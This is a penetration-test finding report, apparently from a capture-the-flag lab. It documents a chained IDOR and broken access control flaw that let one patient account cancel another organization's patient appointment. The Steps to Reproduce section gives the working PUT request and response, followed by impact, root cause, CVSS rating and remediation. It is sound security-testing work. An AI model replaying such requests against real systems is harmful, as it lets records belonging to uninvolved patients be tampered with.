


# F-04: Chained IDOR + Broken Function-Level Access Control — Unauthorized Modification of Another Patient's Medical Record

- **CWE:** CWE-639 (IDOR) + CWE-285 (Improper Authorization)
- **OWASP:** A01:2021 Broken Access Control
- **Endpoint:** `PUT /api/medical/appointments/{id}`
- **Severity:** High (practical — see CVSS note below)
- **CVSS 3.1:** `AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:N` — 5.9 (base score; see Impact for why practical severity is higher)

## Summary

This combines F-02 (read-side IDOR) and F-03 (write access to a clinically significant field) into a single, more severe finding: **I was able to modify another patient's appointment status, not just my own.** The victim's `patient_id` and `org_id` both differ from mine, confirming this crosses both patient and organizational boundaries, and that the issue is a write-side vulnerability, not just an information leak.

## Steps to Reproduce

1. Using F-02's IDOR, identified appointment `id 98` as belonging to a different patient:
   ```json
   {"id":98,"patient_id":10156,"doctor_id":10043,"date":"2026-09-26","time":"16:30",
   "status":"completed","reason":"Skin examination","doctor_notes":null,
   "confirmation_code":"CONF-2025-0064","org_id":"c5d6e7f8-7b4e-4a91-bc03-9d1f6e8a5c20", ...}
   ```
   This patient (`10156`) and organization (`c5d6e7f8-...`) are both different from my own account (`patient_id 10001`, `org_id a3f8c2d1-...`).

2. Sent a PUT request to that same ID, authenticated as **my own account**, with only the status field in the body:
   ```http
   PUT /api/medical/appointments/98 HTTP/1.1
   Host: 7kpz980v0s22.ctfhub.io
   Authorization: Bearer <redacted — my own patient token>
   Content-Type: application/json

   {"status":"cancelled"}
   ```

3. Response (200 OK) — the victim's record was updated:
   ```json
   {"id":98,"patient_id":10156,"doctor_id":10043,"date":"2026-09-26","time":"16:30",
   "status":"cancelled","reason":"Skin examination","doctor_notes":null,
   "confirmation_code":"CONF-2025-0064","org_id":"c5d6e7f8-...", ...}
   ```
   A real appointment, originally marked `completed`, was changed to `cancelled` by an account that has no relationship to the patient, the doctor, or the organization involved.

## Impact

This is a genuine cross-tenant integrity compromise, not just a confidentiality issue:

- **Cross-patient:** the attacker (`10001`) and victim (`10156`) are different people
- **Cross-organization:** the attacker's `org_id` and the victim's `org_id` are different — this isn't two patients at the same clinic, it's two separate organizations entirely
- **Clinical integrity impact:** a completed medical visit was altered to "cancelled" — in a real system this affects billing, insurance claims, and the accuracy of a patient's treatment history, and could plausibly be used to cover up or falsify medical events
- **No validation required:** the request needed only the one field being changed; the server performed no check on required fields, ownership, or role

## Root Cause

Same as F-02 and F-03 combined: the write path for this endpoint checks neither that the caller owns the target appointment nor that the caller's role is permitted to change its `status` field. Two independent missing checks on the same endpoint.

## Why This Is Rated the Way It Is

CVSS's base score (5.9) only reflects "integrity impact: high" on a single object. It doesn't have a clean way to score "this also crosses organizational boundaries, affecting a party the attacker has zero relationship to." In practice, this finding should be treated as **higher than Medium** — many real pentest reports would manually elevate a finding like this, citing the cross-tenant write access and the clinical/legal sensitivity of the altered data as justification, even when the raw CVSS math lands at 5.9.

## Remediation

- Fix both root causes from F-02 and F-03 together: enforce `appointment.patient_id == current_user.id` **and** a role check on clinically significant fields, on every write to this endpoint.
- Add integration tests specifically asserting that Patient A can never modify any record belonging to Patient B, regardless of organization.
- Log and alert on write requests where the authenticated user's ID doesn't match the target resource's owner — this pattern should never occur in legitimate traffic.

## Evidence


## Evidence






